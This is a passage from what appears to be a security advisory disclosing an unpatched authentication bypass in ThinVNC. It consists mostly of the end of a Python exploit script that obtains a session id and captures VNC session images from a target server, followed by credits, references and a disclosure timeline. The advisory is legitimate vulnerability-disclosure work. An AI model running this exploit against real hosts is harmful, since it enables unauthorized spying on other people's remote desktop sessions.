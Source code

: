```python
                    os.system("cat %s | base64 -d > %s; rm %s" % (name_txt, name_png, name_txt))
                except:
                    print("[*] Error Decoding Images")


parser = argparse.ArgumentParser(description='ThinVNC exploit')

parser.add_argument('-s', '--server-ip', required=True, help='ThinVNC IP')
parser.add_argument('-p', '--server-port', required=True, help='ThinVNC PORT')
parser.add_argument('-k', '--ssl',required=True, help='ssl (true or false)')


args = parser.parse_args()

if (args.ssl.lower() == "true"):
    url = 'https://%s:%s' % (args.server_ip,args.server_port)
else:
    url = 'http://%s:%s' % (args.server_ip,args.server_port)


print("[*] ThinVNC Auth Bypass - VNC Session Images")
print

print("[+] Getting sid")
sid = login_sid(url)

print("[+] Initializing sid")
start_sid(url, sid)


get_images(url, sid)
```

## Mitigation

By 2022-04-13 there is not a patch resolving the issue.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of Fluid Attacks.

## References

**Vendor page** <https://github.com/bewest/thinvnc>

**Issue** <https://github.com/bewest/thinvnc/issues/7>

## Timeline

<time-lapse
  discovered="2022-04-05"
  contacted="2022-04-05"
  replied=""
  confirmed=""
  patched=""
  disclosure="2022-04-13">
</time-lapse>
